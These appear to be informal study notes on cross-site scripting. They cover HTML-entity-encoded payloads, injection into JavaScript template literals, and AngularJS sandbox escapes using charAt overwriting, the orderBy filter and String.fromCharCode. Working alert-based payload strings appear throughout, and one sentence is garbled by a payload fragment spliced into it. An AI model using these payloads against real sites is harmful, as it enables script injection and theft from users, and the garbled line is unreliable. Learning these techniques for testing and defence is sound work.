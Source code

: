 ### Making use of HTML-encoding
Sometimes app could decode fromn HTML our paylaod and if special characters are blocked, we can try to use:
```
&apos;-alert(document.domain)-&apos;
and it's decoding into:
'-alert(document.domain)-'
```
For example we can insert such payload in website field, which is then reflected in onclick payload:
```
http://foo?&apos;-alert(1)-&apos;
```
### XSS in JS template literals
JS template literals are strings literals with embeded JS expressions. They are encapsulatet in backticks and JS expressions inside of them are identified using `${...}` syntax:
```
document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
```
In such context we can insert XSS simply using `${}` syntax.  
```
${alert(document.domain)}
```
## Client-side template injection
CSTI occurs when site uses templates to dynamically parse user's input.  
### AngularJS sandbox
AJS sandbox prevents access to potentially dangerous objects such as `window` and `document` or properties such as `__proto__`  
Sandbox works by parsing user's input, rewriting JS and checking if it contains any dangerous funcs. For example `ensureSafeObject()` func checks does object references itself.  
The `ensureSafeMemberName()` function checks each property access of the object and, if it contains dangerous properties such as `__proto__` or `__lookupGetter__`, the object will be blocked. The `ensureSafeFunction()` function prevents `call(), apply(), bind(), or constructor()` from being called.  
One of the most comon ways is to "fool" AngularJs `isIdent()` function. It compares single characters, but we can put to the input multiple characters that will be always less then single character and function will be fooled, so from that point we can insert XSS.
```
'a'.constructor.prototype.charAt=[].join
```
`charAt` and `join` are used to put multiple characters to `isIdent()` check  
We need to use `$eval()` function to overwrite `charAt()` function.  

### More complicated ways
Some sites will restrict some characters and in such case we will need more complicated ways to escape sandbox.  
If site blocks quotes, we will need `String.fromCharCode()` function to generate needed chars.  
If `$eval()` function is blocked, we need to use `orderBy` filter. Syntax:
```
[123]|orderBy:'Some string'
```
`|` symbol is used not for `OR` operation, but f
1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toStror filtering  
Some string here could be a paylaod which we will use in place of `eval()` func  
Example of payload:
```
1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
Here numbers are UTF-16 encoded symbols for `x=alert(1)`
